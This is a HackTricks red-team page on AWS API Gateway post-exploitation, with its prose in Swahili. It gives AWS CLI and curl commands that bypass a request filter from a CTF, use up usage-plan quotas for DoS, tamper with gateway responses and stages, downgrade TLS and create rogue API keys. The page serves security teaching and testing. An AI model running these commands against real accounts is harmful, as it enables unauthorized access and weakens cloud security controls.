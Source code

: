# AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Unaweza kuunda kiunganishi katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, funua kiunganishi katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na piga kundi la usalama linaloruhusu mawasiliano yote.\
Kisha, kutoka kwa mashine ya EC2 utaweza kufikia kiunganishi na hivyo kuita API ya gateway ambayo haikuwa imefunuliwa hapo awali.

### Bypass Request body passthrough

Teknolojia hii ilipatikana katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Kama ilivyoonyeshwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa kawaida, thamani **`WHEN_NO_MATCH`**, wakati wa kuangalia kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Hivyo, katika CTF, API Gateway ilikuwa na kigezo cha uunganisho ambacho kilikuwa **kikizuia bendera kutolewa** katika jibu wakati ombi lilitumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Hata hivyo, kutuma ombi lenye **`Content-type: text/json`** kungesitisha hiyo chujio.

Hatimaye, kwa kuwa API Gateway ilikuwa ikiruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma uchunguzi wa dynamoDB bila kikomo kwa kutuma ombi la POST lenye uchunguzi katika mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Katika sehemu ya **Enumeration** unaweza kuona jinsi ya **kupata mpango wa matumizi** ya funguo. Ikiwa una funguo na ime **punguzia** matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**API Key** inahitaji tu **kujumuishwa** ndani ya **HTTP header** inayoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha Jibu la Gateway lililopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza skripti za uhalifu**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kubadilisha hatua ya API Gateway iliyopo ili kuelekeza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikiaji usioidhinishwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa data iliyohifadhiwa, kuingilia au kukamata trafiki ya API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha jibu la njia ya API Gateway REST API iliyopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza skripti zenye uharibifu**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API ili kuzima uandishi wa kumbukumbu au kubadilisha toleo la chini la TLS, ambayo inaweza kudhoofisha usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kupunguza usalama wa API, ambayo inaweza kuruhusu ufikiaji usioidhinishwa au kufichua taarifa nyeti.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kisha kutumia funguo hizi kwa ufikiaji usioidhinishwa kwa APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API, kupita udhibiti wa usalama.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
